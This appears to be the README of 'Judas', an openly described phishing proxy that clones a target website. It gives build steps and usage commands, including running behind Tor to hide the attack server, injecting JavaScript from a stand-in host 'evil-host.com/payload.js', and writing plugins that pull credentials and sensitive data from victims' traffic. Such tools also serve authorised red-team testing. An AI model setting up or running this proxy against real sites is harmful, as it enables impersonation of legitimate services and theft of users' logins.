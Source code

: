 Judas
=====
Judas is a phishing proxy.
It can clone a website passed to it using command line flags.

Building
--------
To build `judas`, simply run `go build`.
 ```
 go build -o judas cmd/judas.go
 ```


Usage
-----
The target ```--target``` flag is required.
`judas` will use Let's Encrypt to automatically create SSL certificates for website.
If you want to listen using HTTP, pass the ```--insecure``` flag.
If you want to accept self-signed SSL certificate from target host, pass the ```--insecure-target``` flag.

Example:
```
./judas --target https://target-url.com --cert server.crt --private-key server.key
```

```
./judas --target https://target-url.com --insecure
```

```
./judas --target https://target-url-with-self-signed-cert.com --insecure-target
```


It can optionally use an upstream proxy with the ```--proxy``` argument to proxy Tor websites or hide the attack server from the target.

Example:
```
./judas --target https://torwebsite.onion --cert server.crt --private-key server.key --proxy socks5://localhost:9150
```

By default, Judas listens on localhost:8080.
To change this, use the ```--address``` argument.

Example:
```
./judas --target https://target-url.com --cert server.crt --private-key server.key --address=0.0.0.0:8080
```

Judas can also inject custom JavaScript into requests by passing a URL to a JS file with the ```--inject-js``` argument.

Example:
```
./judas --target https://target-url.com --cert server.crt --private-key server.key --inject-js https://evil-host.com/payload.js
```

Plugins
-------
Judas can be extended using [Go plugins](https://golang.org/pkg/plugin/). 
An `judas` plugin is a regular Go plugin with a function called `New` that implements `judas.InitializerFunc`.
You can use plugins to save request-response transactions to disk for further analysis, or pull credentials and sensitive information out of requests and responses on the fly.

```
// InitializerFunc is a go function that should be exported by a function package.
// It should be named "New".
// Your InitializerFunc should return an instance of your Plugin with a reference to judas's logger for consistent logging.
type InitializerFunc func(*log.Logger) (Plugin, error)
```

The `judas.Plugin` interface has one method: `Listen`.

```
// Plugin must be implemented by a plugin to users to hook the request - response transaction.
// The Listen method will be run in its own goroutine, so plugins cannot block the rest of the program, however panics can take down the entire process.
type Plugin interface {
	Listen(results <-chan *Result)
}
```

`Listen` implementations will receive a stream of  `judas.HTTPExchange`.
These contain the `judas.Request`, the payload and the `judas.Response`, along with the target.

```
// HTTPExchange contains the request sent by the user to us and the response received from the target server.
// Plugins can use this struct to pull information out of requests and responses.
type HTTPExchange struct {
	Request  *Request
	Response *Response
	Target   *url.URL
}
```

You can put compiled plugins in a directory and pass them with the `--plugins` flag.
Plugins are colon separated file paths.

```
judas \
     --target https://www.google.com \
     --insecure \
     --address localhost:9000 \
     --proxy http://localhost:8080 \
     --insecure-target
     --plugin ./searchloggingplugin.so:./linksloggingplugin.so
```

See [examples/searchloggingplugin/searchloggingplugin.go](https://github.com/JonCooperWorks/judas/tree/master/examples/searchloggingplugin/searchloggingplugin.go)

You can build a plugin using this command:
```
go build -buildmode=plugin path/to/plugin.go
```